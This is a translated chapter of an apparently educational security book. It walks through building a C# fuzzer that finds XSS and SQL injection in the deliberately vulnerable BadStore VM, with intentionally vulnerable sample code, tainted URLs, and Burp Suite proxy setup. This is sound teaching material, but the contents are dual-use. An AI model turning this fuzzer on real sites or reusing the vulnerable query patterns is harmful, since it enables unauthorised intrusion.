







2

模糊测试与利用 XSS 和 SQL 注入

在本章中，您将学会如何编写一个简短有效的跨站脚本（XSS）和 SQL 注入模糊测试工具，用于处理带有 GET 和 POST 请求 HTTP 参数的 URL。模糊测试工具是一种尝试通过发送错误或格式不正确的数据来找出其他软件（例如服务器软件）中的漏洞的工具。模糊测试工具一般分为两种类型：突变模糊测试工具和生成型模糊测试工具。突变模糊测试工具尝试在已知的良好输入中注入坏数据，不考虑协议或数据的结构。相比之下，生成型模糊测试工具会考虑服务器通信协议的细节，并利用这些细节生成技术上有效的数据并发送到服务器。对于这两种类型的模糊测试工具，目标是让服务器返回错误，从而让模糊测试工具发现漏洞。

我们将编写一个突变模糊测试工具，您可以在已知良好输入（如 URL 或 HTTP 请求）时使用。（我们将在第三章中编写一个生成型模糊测试工具。）一旦您能够使用模糊测试工具发现 XSS 和 SQL 注入漏洞，您将学会如何利用 SQL 注入漏洞从数据库中提取用户名和密码哈希。

为了发现和利用 XSS 和 SQL 注入漏洞，我们将使用核心 HTTP 库在 C# 中编程构建 HTTP 请求。我们将首先编写一个简单的模糊测试工具，它解析 URL 并开始使用 GET 和 POST 请求模糊测试 HTTP 参数。接下来，我们将开发针对 SQL 注入漏洞的完整利用工具，这些工具使用精心构造的 HTTP 请求从数据库中提取用户信息。

在本章中，我们将针对一个名为 BadStore 的小型 Linux 发行版测试我们的工具（可以在 VulnHub 网站上找到，[`www.vulnhub.com/`](https://www.vulnhub.com/)）。BadStore 设计中包含了像 SQL 注入和 XSS 攻击等漏洞（还有许多其他漏洞）。从 VulnHub 下载 BadStore 的 ISO 文件后，我们将使用免费的 VirtualBox 虚拟化软件创建一个虚拟机，在其中启动 BadStore ISO，以便我们能够进行攻击，而不必担心危及主机系统的安全。

设置虚拟机

要在 Linux、Windows 或 OS X 上安装 VirtualBox，请从 [`www.virtualbox.org/`](https://www.virtualbox.org/) 下载 VirtualBox 软件。（安装过程应该很简单；只需按照网站上最新的指示操作即可。）虚拟机（VM）允许我们使用物理计算机模拟计算机系统。我们可以使用虚拟机轻松创建和管理易受攻击的软件系统（例如我们将在本书中使用的那些系统）。

添加仅主机虚拟网络

在实际设置虚拟机之前，您可能需要为虚拟机创建一个仅主机虚拟网络。仅主机网络允许虚拟机和主机系统之间的通信。以下是需要遵循的步骤：

1.  点击“文件” ▸ “偏好设置”打开 VirtualBox – 偏好设置对话框。在 OS X 上，选择 VirtualBox ▸ “偏好设置”。

1.  点击左侧的“网络”部分。你应该会看到两个选项卡：NAT 网络和仅主机网络。在 OS X 上，点击设置对话框顶部的“网络”选项卡。

1.  点击“仅主机网络”选项卡，然后点击右侧的“添加仅主机网络（Ins）”按钮。这个按钮是一个叠加着加号的网卡图标。此时应该会创建一个名为 vboxnet0 的网络。

1.  点击右侧的“编辑仅主机网络（空格）”按钮。这个按钮是一个螺丝刀的图标。

1.  从弹出的对话框中，点击 DHCP 服务器选项卡。勾选“启用服务器”框。在服务器地址字段中，输入 IP 地址 192.168.56.2。在服务器掩码字段中，输入 255.255.255.0。在下限地址字段中，输入 192.168.56.100。在上限地址字段中，输入 192.168.56.199。

1.  点击“确定”以保存对仅主机网络的更改。

1.  再次点击“确定”以关闭设置对话框。

创建虚拟机

安装并配置好 VirtualBox 并设置了仅主机网络后，按照以下步骤设置虚拟机：

1.  点击左上角的新建图标，如图 2-1 所示。

1.  当弹出一个对话框询问选择操作系统名称和类型时，选择“其他 Linux（32 位）”下拉选项。

1.  点击“继续”，你应该会看到一个屏幕，用于为虚拟机分配一些 RAM。将 RAM 设置为 512 MB，然后点击“继续”。（模糊测试和利用漏洞可能会让虚拟机上的 Web 服务器使用大量 RAM。）

1.  当被要求创建一个新的虚拟硬盘时，选择“不添加虚拟硬盘”，然后点击“创建”。（我们将从 ISO 镜像运行 BadStore。）你现在应该会在 VirtualBox 管理器窗口的左侧窗格中看到虚拟机，如图 2-1 所示。

    

    图 2-1：带有 BadStore 虚拟机的 VirtualBox

从 BadStore ISO 启动虚拟机

一旦虚拟机创建完成，按照以下步骤设置它从 BadStore ISO 启动：

1.  在 VirtualBox 管理器的左侧窗格中右键点击虚拟机，点击“设置”。此时应弹出一个对话框，显示网络卡、光驱及其他杂项配置项的当前设置。

1.  在设置对话框中选择“网络”选项卡。你应该会看到至少七个与网络卡相关的设置，包括 NAT（网络地址转换）、仅主机和桥接。选择仅主机网络，以分配一个仅主机机器可访问而无法从其他互联网设备访问的 IP 地址。

1.  你需要在“高级”下拉菜单中将网络卡类型设置为较旧的芯片组，因为 BadStore 基于较旧的 Linux 内核，某些较新的芯片组不被支持。选择 PCnet-FAST III。

现在，按照以下步骤设置光驱从硬盘上的 ISO 启动：

1.  在设置对话框中选择“存储”选项卡。点击 CD 图标，弹出一个菜单，其中包含“选择虚拟 CD/DVD 磁盘文件”选项。

1.  点击“选择虚拟 CD/DVD 磁盘文件”选项，找到您保存在文件系统中的 BadStore ISO 并将其设置为可启动介质。虚拟机现在应该准备好启动。

1.  通过点击设置选项卡右下角的 OK 按钮保存设置。然后点击 VirtualBox Manager 左上角的启动按钮，旁边是设置齿轮按钮，以启动虚拟机。

1.  一旦机器启动，您应该看到一条消息，提示“请按 Enter 键激活此控制台。”按下回车键并输入 ifconfig 查看应该已获取的 IP 配置。

1.  一旦您获得虚拟机的 IP 地址，输入该地址到您的网页浏览器中，您应该看到一个类似于 图 2-2 所示的屏幕。

    

    图 2-2：BadStore Web 应用程序的主页

SQL 注入

在今天丰富的 Web 应用程序中，程序员需要能够在后台存储和查询信息，以提供高质量、健壮的用户体验。这通常通过使用结构化查询语言（SQL；发音为 sequel）数据库，如 MySQL、PostgreSQL 或 Microsoft SQL Server 来完成。

SQL 允许程序员通过 SQL 语句与数据库进行交互——这些代码指示数据库如何根据提供的信息或标准来创建、读取、更新或删除数据。例如，要求数据库返回托管数据库中的用户数量的 SELECT 语句可能如下所示 Listing 2-1。

> SELECT COUNT(*) FROM USERS

Listing 2-1：示例 SQL SELECT 语句

有时程序员需要 SQL 语句是动态的（也就是说，根据用户与 Web 应用程序的交互而变化）。例如，程序员可能需要根据某个用户的 ID 或用户名从数据库中选择信息。

然而，当程序员使用来自不受信任客户端（如网页浏览器）提供的数据或值来构建 SQL 语句时，如果用于构建和执行 SQL 语句的值没有被正确清理，就可能引入 SQL 注入漏洞。例如， Listing 2-2 中显示的 C# SOAP 方法可能被用来将用户插入到托管在 Web 服务器上的数据库中。（SOAP，或简单对象访问协议，是一种由 XML 支持的 Web 技术，用于快速创建 Web 应用程序的 API。它在 C# 和 Java 等企业语言中非常流行。）[WebMethod]

public string AddUser(string username, string password)

{

NpgsqlConnection conn = new NpgsqlConnection(_connstr);

conn.Open();

string sql = "insert into users values('{0}', '{1}');";

➊sql = String.Format(sql, username, password);

NpgsqlCommand command = new NpgsqlCommand(sql, conn);

➋command.ExecuteNonQuery();

conn.Close();

return "Excellent!";

}

Listing 2-2：一个易受 SQL 注入攻击的 C# SOAP 方法

在这种情况下，程序员在创建 ➊ 和执行 ➋ SQL 字符串之前并未清理用户名和密码。因此，攻击者可以构造一个用户名或密码字符串，迫使数据库执行精心设计的 SQL 代码，目的是让他们远程执行命令并完全控制数据库。

如果你在某个参数中传递一个单引号（比如将 user'name 而不是 username 传递给参数），ExecuteNonQuery() 方法会尝试执行一个无效的 SQL 查询（如示例 2-3 所示）。接着，方法会抛出一个异常，该异常将在 HTTP 响应中显示，攻击者可以看到。

> insert into users values('user'name', 'password'); 示例 2-3：由于未清理的用户提供数据，此 SQL 查询无效。

许多支持数据库访问的软件库通过参数化查询，允许程序员安全地使用由不信任的客户端（如网页浏览器）提供的值。这些库会自动清理传递给 SQL 查询的任何不信任的值，通过转义如撇号、括号以及 SQL 语法中使用的其他特殊字符来防止潜在的安全风险。参数化查询和其他类型的对象关系映射（ORM）库（如 NHibernate）有助于防止这些 SQL 注入问题。

像这样的用户提供值通常会在 SQL 查询的 WHERE 子句中使用，如示例 2-4 所示。

> SELECT * FROM users WHERE user_id = '1'

示例 2-4：选择特定 user_id 的 SQL SELECT 语句

如示例 2-3 所示，在没有正确清理的情况下，将一个单引号放入 HTTP 参数中，且该参数被用来构建动态 SQL 查询，可能会导致网页应用程序抛出错误（例如 HTTP 返回码 500）。这是因为在 SQL 中，单引号表示字符串的开始或结束。单引号会通过提前结束字符串或在未结束字符串的情况下开始字符串，从而使语句无效。通过解析对该请求的 HTTP 响应，我们可以模糊测试这些网页应用程序，并搜索那些在篡改参数后，导致 SQL 错误的用户提供的 HTTP 参数。

跨站脚本攻击

与 SQL 注入类似，跨站脚本攻击（XSS）利用了代码中的漏洞，这些漏洞通常在程序员构建用于在网页浏览器中渲染的 HTML 时出现，数据是从网页浏览器传递到服务器的。有时候，来自不信任客户端（如网页浏览器）的数据可能包含 HTML 代码，如 JavaScript，从而允许攻击者通过窃取 cookies 或将用户重定向到恶意网站，可能会接管网站并执行未经清理的原始 HTML。

例如，一个允许评论的博客可能会发送包含评论表单数据的 HTTP 请求到网站的服务器。如果攻击者创建一个嵌入了 HTML 或 JavaScript 的恶意评论，并且博客软件信任并因此没有清理来自提交“评论”的网页浏览器的数据，攻击者就可以利用他们加载的攻击性评论用自己的 HTML 代码毁坏网站，或将博客的访客重定向到攻击者自己的网站。攻击者还可能在访客的计算机上安装恶意软件。

一般来说，检测网站是否可能易受 XSS 攻击的一种快速方法是向该站点发送一个带有污染参数的请求。如果污染的数据在响应中未被修改，你可能找到了一个 XSS 攻击的向量。例如，假设你在 HTTP 请求中传递了<xss>作为参数，如列表 2-5 所示。

> GET /index.php?name=Brandon<xss> HTTP/1.1
> 
> Host: 10.37.129.5
> 
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:37.0) Gecko/20100101 Firefox/37.0
> 
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate
> 
> Connection: keep-alive 列表 2-5：带查询字符串参数的 PHP 脚本的示例 GET 请求

服务器响应类似于列表 2-6 中的 HTTP 响应。

> HTTP/1.1 200 OK
> 
> Date: Sun, 19 Apr 2015 21:28:02 GMT
> 
> Server: Apache/2.4.7 (Ubuntu)
> 
> X-Powered-By: PHP/5.5.9-1ubuntu4.7
> 
> Content-Length: 32
> 
> Keep-Alive: timeout=5, max=100
> 
> Connection: Keep-Alive
> 
> Content-Type: text/html
> 
> Welcome Brandon&lt;xss&gt;  列表 2-6：PHP 脚本清理 name 查询字符串参数的示例响应

本质上，如果代码中的<xss>被替换为包含一些 HTML 实体的版本，你就知道该网站正在使用 PHP 函数（如 htmlspecialchars()）或类似方法过滤输入。然而，如果网站在响应中直接返回<xss>，你就知道它没有进行任何过滤或清理，就像在列表 2-7 中显示的 HTTP 名称参数一样。

> <?php
> 
> $name = $_GET['name'];
> 
> ➊echo "Welcome $name ";
> 
> ?> 列表 2-7：易受 XSS 攻击的 PHP 代码

如同列表 2-1 中漏洞代码一样，程序员没有在将 HTML 渲染到屏幕之前清理或替换参数中的任何潜在不良字符➊。通过传递一个特别制作的名称参数给 Web 应用，我们可以将 HTML 渲染到屏幕上，执行 JavaScript，甚至运行尝试接管计算机的 Java applet。例如，我们可以发送一个特别制作的 URL，如列表 2-8 中所示。

> www.example.com/vuln.php?name=Brandon 列表 2-8：如果参数易受 XSS 攻击，则会弹出 JavaScript 警告的带查询字符串参数的 URL

列表 2-8 中的 URL 如果 PHP 脚本使用 `name` 参数构建 HTML 代码，并最终在浏览器中渲染，可能会导致 JavaScript 弹出窗口出现，并显示数字 1。

使用突变模糊测试器进行 GET 请求模糊测试

现在你已经了解了 SQL 注入和 XSS 漏洞的基础知识，让我们实现一个快速的模糊测试器，用于查找查询字符串参数中的潜在 SQL 注入或 XSS 漏洞。查询字符串参数是 URL 中问号 (?) 后面的部分，采用 key = value 格式。我们将重点关注 GET 请求中的 HTTP 参数，但首先，我们将拆分一个 URL，以便可以遍历任何 HTTP 查询字符串参数，如 列表 2-9 所示。

> public static void Main(string[] args)
> 
> {
> 
> ➊string url = args[0];
> 
> int index = url.➋IndexOf("?");
> 
> string[] parms = url.➌Remove(0, index+1).➍Split('&');
> 
> foreach (string parm in parms)
> 
> Console.WriteLine(parm);
> 
> }

列表 2-9：分解给定 URL 中查询字符串参数的简单 `Main()` 方法

在 列表 2-9 中，我们获取传递给主模糊测试应用程序的第一个参数 (args[0])，并假设它是一个 URL ➊，该 URL 包含一些可以模糊测试的 HTTP 参数。为了将这些参数转换为我们可以迭代的形式，我们首先删除 URL 中的问号 (?) 之前和包括问号的部分，然后使用 `IndexOf("?")` ➋ 确定第一个问号的位置，这标志着 URL 结束，查询字符串参数紧随其后；这些是我们可以解析的参数。

调用 `Remove(0, index+1)` ➌ 返回一个只包含 URL 参数的字符串。这个字符串随后会根据 `&` 字符 ➍ 分割开，`&` 标志着新参数的开始。最后，我们使用 `foreach` 关键字，循环遍历 `parms` 数组中的所有字符串，并打印每个参数及其值。现在我们已经将查询字符串参数及其值从 URL 中隔离出来，以便在发出 HTTP 请求时开始修改这些值，从而诱发 Web 应用程序错误。

污染参数并测试漏洞

现在我们已经分离了可能存在漏洞的 URL 参数，下一步是将每个参数污染，使用服务器如果不容易受到 XSS 或 SQL 注入影响时会正常清理的数据。对于 XSS，我们的污染数据将添加 `<xss>`，而测试 SQL 注入的数据将包含一个单引号。

我们可以创建两个新的 URL，通过将已知的有效参数值替换为污染数据，来测试目标是否存在 XSS 和 SQL 注入漏洞，如 列表 2-10 所示。

> foreach (string parm in parms)
> 
> {
> 
> ➊string xssUrl = url.Replace(parm, parm + "fd<xss>sa");
> 
> ➋string sqlUrl = url.Replace(parm, parm + "fd'sa");
> 
> Console.WriteLine(xssUrl);
> 
> Console.WriteLine(sqlUrl);
> 
> }

列表 2-10：修改后的 `foreach` 循环，用污染数据替换参数

为了测试漏洞，我们需要确保我们正在创建目标网站能够理解的 URL。为此，我们首先将 URL 中的旧参数替换为受污染的参数，然后打印出我们将请求的新 URL。打印到屏幕时，URL 中的每个参数应该有一行包含 XSS 污染的参数➊，以及一行包含带单引号的参数➋，如清单 2-11 所示。

> http://192.168.1.75/cgi-bin/badstore.cgi?searchquery=testfd<xss>sa&action=search
> 
> http://192.168.1.75/cgi-bin/badstore.cgi?searchquery=testfd'sa&action=search
> 
> --snip--

清单 2-11: 带污染 HTTP 参数的打印 URL

构建 HTTP 请求

接下来，我们通过编程方式使用 HttpWebRequest 类构建 HTTP 请求，然后使用受污染的 HTTP 参数发起请求，看看是否返回任何错误（见清单 2-12）。

> foreach (string parm in parms)
> 
> {
> 
> string xssUrl = url.Replace(parm, parm + "fd<xss>sa");
> 
> string sqlUrl = url.Replace(parm, parm + "fd'sa");
> 
> HttpWebRequest request = (HttpWebRequest)WebRequest.➊Create(sqlUrl);
> 
> request.➋Method = "GET";
> 
> string sqlresp = string.Empty;
> 
> using (StreamReader rdr = new
> 
> StreamReader(request.GetResponse().GetResponseStream()))
> 
> sqlresp = rdr.➌ReadToEnd();
> 
> request = (HttpWebRequest)WebRequest.Create(xssUrl);
> 
> request.Method = "GET";
> 
> string xssresp = string.Empty;
> 
> using (StreamReader rdr = new
> 
> StreamReader(request.GetResponse().GetResponseStream()))
> 
> xssresp = rdr.ReadToEnd();
> 
> if (xssresp.Contains("<xss>"))
> 
> Console.WriteLine("在参数中发现可能的 XSS 点: " + parm);
> 
> if (sqlresp.Contains("SQL 语法错误"))
> 
> Console.WriteLine("在参数中发现 SQL 注入点: " + parm);
> 
> }

清单 2-12: 完整的 foreach 循环，测试给定的 URL 是否存在 XSS 和 SQL 注入

在清单 2-12 中，我们使用 WebRequest 类的静态 Create()方法➊来发起 HTTP 请求，将受单引号污染的 sqlUrl 变量中的 URL 作为参数传递，并将返回的实例化 WebRequest 对象强制转换为 HttpWebRequest。（静态方法不需要实例化父类即可使用。）Create()方法采用工厂模式，根据传入的 URL 创建新的对象，这就是我们需要将返回的对象强制转换为 HttpWebRequest 对象的原因。例如，如果我们传入的 URL 以 ftp://或 file://开头，那么 Create()方法返回的对象类型将是不同的类（分别是 FtpWebRequest 或 FileWebRequest）。然后，我们将 HttpWebRequest 的 Method 属性设置为 GET（这样我们就发起一个 GET 请求）➋，并使用 StreamReader 类和 ReadToEnd()方法将响应保存到请求的响应中，保存在 resp 字符串中➌。如果响应包含未经清洗的 XSS 有效负载，或者抛出关于 SQL 语法的错误，我们就知道可能发现了一个漏洞。

注意

> 注意，我们在这里以新的方式使用了 using 关键字。在此之前，我们使用 using 来导入命名空间中的类（例如 System.Net）到模糊测试工具中。基本上，当类实现了 IDisposable 接口（该接口要求类实现 Dispose()方法）时，通过 using 块使用实例化的对象（使用 new 关键字创建的对象）。当 using 块的作用域结束时，对象的 Dispose()方法会自动被调用。这是一种非常有用的方法来管理可能导致资源泄漏的资源的作用域，例如网络资源或文件描述符。

测试模糊测试代码

让我们使用 BadStore 首页上的搜索字段来测试我们的代码。在 Web 浏览器中打开 BadStore 应用后，点击页面左侧的“主页”菜单项，然后在左上角的搜索框中执行快速搜索。您应该会在浏览器中看到类似于清单 2-13 中显示的 URL。

> http://192.168.1.75/cgi-bin/badstore.cgi?searchquery=test&action=search 清单 2-13：指向 BadStore 搜索页面的示例 URL

将清单 2-13 中的 URL（将 IP 地址替换为您网络中 BadStore 实例的 IP 地址）作为参数传递给程序，如清单 2-14 所示，模糊测试应开始。

> $ ./fuzzer.exe "http://192.168.1.75/cgi-bin/badstore.cgi?searchquery=test&action=search"
> 
> 在参数中发现 SQL 注入点：searchquery=test
> 
> 在参数中发现可能的 XSS 点：searchquery=test
> 
> $

清单 2-14：运行 XSS 和 SQL 注入模糊测试工具

运行我们的模糊测试工具应该能在 BadStore 中发现 SQL 注入和 XSS 漏洞，输出内容类似于清单 2-14。

对 POST 请求进行模糊测试

在本节中，我们将使用 BadStore 对保存在本地硬盘上的 POST 请求（用于向 Web 资源提交数据进行处理的请求）参数进行模糊测试。我们将使用 Burp Suite 捕获 POST 请求——这是一款为安全研究人员和渗透测试人员设计的易于使用的 HTTP 代理，位于浏览器和 HTTP 服务器之间，您可以看到数据的来回传输。

现在从[`www.portswigger.net/`](http://www.portswigger.net/)下载并安装 Burp Suite。（Burp Suite 是一个 Java 归档文件（JAR 文件），可以保存到 U 盘或其他可移动介质。）下载 Burp Suite 后，使用 Java 通过清单 2-15 中所示的命令启动它。

> $ cd ~/Downloads/
> 
> $ java -jar burpsuite*.jar  清单 2-15：从命令行运行 Burp Suite

启动后，Burp Suite 代理应监听 8080 端口。将 Firefox 的流量设置为使用 Burp Suite 代理，如下所示：

1.  在 Firefox 中，选择“编辑”▸“首选项”。高级对话框应出现。

1.  选择“网络”标签，如图 2-3 所示。

    

    图 2-3：Firefox 偏好设置中的网络选项卡

1.  单击“设置...”以打开连接设置对话框，如图 2-4 所示。

    

    图 2-4：连接设置对话框

1.  选择手动代理配置，并在 HTTP 代理字段中输入 127.0.0.1，在端口字段中输入 8080。点击“确定”，然后关闭连接设置对话框。

现在，通过 Firefox 发送的所有请求应该首先通过 Burp Suite。（要测试这一点，访问 [`google.com/`](http://google.com/); 你应该能在 Burp Suite 的请求窗格中看到该请求，如图 2-5 所示。） 

图 2-5：Burp Suite 正在主动捕获来自 Firefox 的请求到 google.com

在 Burp Suite 中点击“转发”按钮应该会将请求转发（此处是转发到 Google）并将响应返回给 Firefox。

编写 POST 请求模糊测试器

我们将编写并测试我们的 POST 请求模糊测试器，针对 BadStore 的“最新商品”页面（见图 2-6）。在 Firefox 中访问该页面，并点击左侧的“最新商品”菜单项。

图 2-6：BadStore Web 应用程序的“最新商品”页面

页面底部有一个按钮，用于将选中的商品添加到购物车。通过让 Burp Suite 位于浏览器和 BadStore 服务器之间，选择页面右侧的几个商品，并单击“提交”以发起添加商品到购物车的 HTTP 请求。在 Burp Suite 中捕获提交请求后，应该会得到像清单 2-16 这样的请求。

> POST /cgi-bin/badstore.cgi?action=cartadd HTTP/1.1
> 
> Host: 192.168.1.75
> 
> User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0
> 
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate
> 
> Referer: https://192.168.1.75/cgi-bin/badstore.cgi?action=whatsnew
> 
> Connection: keep-alive
> 
> Content-Type: application/x-www-form-urlencoded
> 
> Content-Length: 63
> 
> cartitem=1000&cartitem=1003&Add+Items+to+Cart=Add+Items+to+Cart 清单 2-16：来自 Burp Suite 的 HTTP POST 请求

